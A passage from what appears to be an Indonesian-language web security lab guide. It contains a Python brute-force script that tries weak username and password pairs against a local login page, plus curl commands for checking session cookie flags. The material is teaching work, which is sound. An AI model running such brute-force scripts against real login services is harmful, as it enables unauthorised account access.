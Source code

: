 ```bash
```

**Step 2: Automated Attack (10 min)**
```bash
# Run automated brute force
python3 -c "
import requests
import time

credentials = [('admin', 'admin'), ('john', 'password'), ('jane', '123456')]
base_url = 'http://localhost:8081/index.php'

print('🔓 BRUTE FORCE ATTACK SIMULATION')
print('================================')

for username, password in credentials:
    print(f'Testing: {username}:{password}')
    
    response = requests.post(base_url, data={
        'username': username,
        'password': password
    })
    
    if 'Login successful' in response.text or 'Welcome' in response.text:
        print(f'  ✅ SUCCESS: {username}:{password}')
    else:
        print(f'  ❌ Failed')
    
    time.sleep(0.5)
"
```

**Step 3: Impact Analysis (5 min)**
```bash
# Analyze attack success
echo "=== BRUTE FORCE IMPACT ANALYSIS ==="
echo "1. No rate limiting detected"
echo "2. No account lockout mechanism"  
echo "3. Weak passwords easily cracked"
echo "4. No CAPTCHA or additional protection"
```

**📝 Learning Questions:**
1. Berapa lama waktu untuk crack 4 accounts?
2. Apa saja indikator successful login?
3. Mitigation apa yang paling efektif?

#### **🍪 Lab 3.2: Session Security Analysis (25 min)**

**Objective**: Memahami session management vulnerabilities

**Step 1: Cookie Analysis (10 min)**
```bash
echo "=== COOKIE SECURITY ANALYSIS ==="

# Get session cookie
curl -c session_cookies.txt -s http://localhost:8081 > /dev/null

# Analyze cookie properties
echo "Session Cookie Details:"
cat session_cookies.txt | grep PHPSESSID

# Check security flags
curl -I http://localhost:8081 2>/dev/null | grep -i "set-cookie"
```
